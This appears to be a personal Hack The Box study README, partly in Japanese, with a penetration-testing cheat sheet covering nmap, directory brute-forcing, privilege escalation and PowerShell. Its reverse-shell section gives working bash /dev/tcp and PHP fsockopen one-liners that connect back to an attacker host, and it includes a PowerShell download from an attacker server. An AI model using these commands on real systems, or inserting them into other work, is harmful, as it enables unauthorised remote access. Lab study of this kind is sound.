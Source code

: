 # HTB-Note
note about Hack The Box

<!-- TOC -->

- [HTB-Note](#htb-note)
  - [Virtual Box Setting](#virtual-box-setting)
    - [Run GuestAddictionsCD](#run-guestaddictionscd)
    - [Open VPN](#open-vpn)
  - [CheatSheet](#cheatsheet)
    - [nmap](#nmap)
      - [nmap script engine](#nmap-script-engine)
    - [MSFvenom](#msfvenom)
    - [Directory Enumlation](#directory-enumlation)
    - [Reverse Shell](#reverse-shell)
    - [Privilege escalation](#privilege-escalation)
      - [find SUID](#find-suid)
    - [PowerShell](#powershell)
    - [Password Crack](#password-crack)

<!-- /TOC -->

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatSheet

### nmap

- バージョン検出
```shell
nmap -sV rhost
```
- OS検出
```shell
nmap -O rhost
```
- OS 検出 + バージョン検出
```shell
nmap -A rhost
```
- ping 送らない
```shell
nmap -Pn rhost
```

#### nmap script engine

- Vulnerability 検出
```shell
nmap --script=vuln -p rport1,rport2 rhost
```

- DNS

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Directory Enumlation

- dirb url -w
- Gobuster options
  - [Gobuster Cheatsheet](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  - quick play
```
gobuster dir -t 100 -u targetUrl -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o outfile
```

- [ffuf](https://github.com/ffuf/ffuf)
  - quick play
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u targetUrl/FUZZ
```


### Reverse Shell

- receive
```
nc -lnvp 1234
```

- bash

```sh
exec 5<>/dev/tcp/my_ip/my_port
/bin/bash -i >& /dev/tcp/my_ip/my_port 0>&1
/bin/bash -c "bash -i >& /dev/tcp/my_ip/my_port 0>&1"
```

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```
  - Direct input
```php
php -r '$sock=fsockopen("your.server.ip.address",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```

- PHP fsockopen
```php
<?php $s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");?>
```
  - Direct input
```php
php -r '$s=fsockopen("10.0.0.1",1234);exec("sh<&3>&3 2>&3");'
```

- when i get "must be run from a terminal"
```python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

### Privilege escalation

#### find SUID 

```shell
find / -perm -u=s -type f 2>/dev/null
```

#### [privilege-escalation-awesome-scripts-suite](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

### PowerShell

- whoami
```
$env:UserName
```
- 論理ドライブの一覧を表示
```
Get-PSDrive
```
- カレントドライブの移動
```
Set-Location C:
```
- Download file
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.14.22:8000/file','filename')"
```

### Password Crack

- [Free Password Hash Cracker](https://crackstation.net/)
